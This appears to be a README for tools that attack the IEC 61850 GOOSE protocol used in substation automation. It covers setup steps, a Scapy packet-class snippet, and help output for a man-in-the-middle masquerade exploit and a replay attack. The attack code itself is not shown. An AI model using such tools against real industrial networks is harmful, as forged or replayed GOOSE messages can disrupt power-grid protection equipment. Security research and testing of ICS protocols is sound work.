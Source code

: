 # HOW TO SETUP:

1. Clone the git repo: https://github.com/keith-gray-powereng/goose
2. Copy the `goose` directory from the repo into that directory where the exploit is located.
3. Paste this code in `goose.py` file inside the `goose` directory from step 2

```python
class GOOSEPDU(Packet):
    name = "GOOSEPDU"
    fields_desc = [
        XByteField("ID",0x61),
        XByteField("DefLen",0x81),
         # NOTE: Length comes from this byte's Least Significant Nibble. Not sure what MSN is for.
        ConditionalField(XByteField("PDU1ByteLen",0x00),lambda pkt:pkt.DefLen^0x80 == 1), 
        ConditionalField(XShortField("PDU2BytesLen",0x0000),lambda pkt:pkt.DefLen^0x80 == 2)
    ]

bind_layers(GOOSE, GOOSEPDU)
```
4. Run the exploit.


# 1. Masquerade Exploit:

```bash
slsuser@slsuser-vm:/opt/analysis_scripts$ python3 goose_exploit.py -h
usage: python3 goose_exploit.py [options]

GOOSE MiTM Masquerade Exploit.

options:
  -h, --help
        show this help message and exit
  --pcapfile PCAPFILE
        Name of the PCAP file to process.
  --livecapture
        Start the live capture. (default: False)
  --output OUTPUT
        Name of the ouput file (should be with .pcap extension)
        Example: 
        ----------
            python3 goose_exploit.py --livecapture --output <filename>
```

# 2. Replay Attack

```bash
slsuser@slsuser-vm:/opt/analysis_scripts$ python3 goose_replay.py -h
usage: python3 goose_replay.py [options]

GOOSE Replay Attack.

options:
  -h, --help
        show this help message and exit
  --pcapfile PCAPFILE
        Name of the PCAP file to process.
  --livecapture
        Start the live capture. (default: False)
  --output OUTPUT
        Name of the ouput file (should be with .pcap extension)
        Example: 
        ----------
            python3 goose_replay.py --livecapture --output <filename>

```
# REFERENCES:

https://idahogray.github.io/blog/generating-goose-messages.html

https://github.com/cutaway-security/goosestalker
